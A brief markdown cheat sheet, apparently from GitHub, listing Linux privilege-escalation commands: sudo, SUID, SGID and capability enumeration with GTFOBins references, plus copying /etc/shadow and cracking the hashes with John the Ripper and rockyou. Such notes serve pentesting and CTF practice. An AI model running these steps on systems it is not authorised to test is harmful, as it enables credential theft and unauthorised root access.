 # SUDO (GTFObins)
```bash
sudo -l
```

-----------------------

# SUID (GTFObins)
```bash
find / -perm -u=s -type f 2>/dev/null
```

-----------------------

# SGID (GTFObins)
```bash
find / -perm -g=s -type f 2>/dev/null
```

-----------------------

# CAPABILITIES (GTFObins)
```bash
/usr/sbin/getcap -r / 2>/dev/null
# If we find cap_setuid+ep 
```

-----------------------

# UNSHADOW 
```bash
cp /etc/passwd passwd
cp /etc/shadow shadow

unshadow passwd shadow > unshadow.txt

john --wordlist=/usr/share/wordlist/rockyou.txt unshadow.txt
```

 
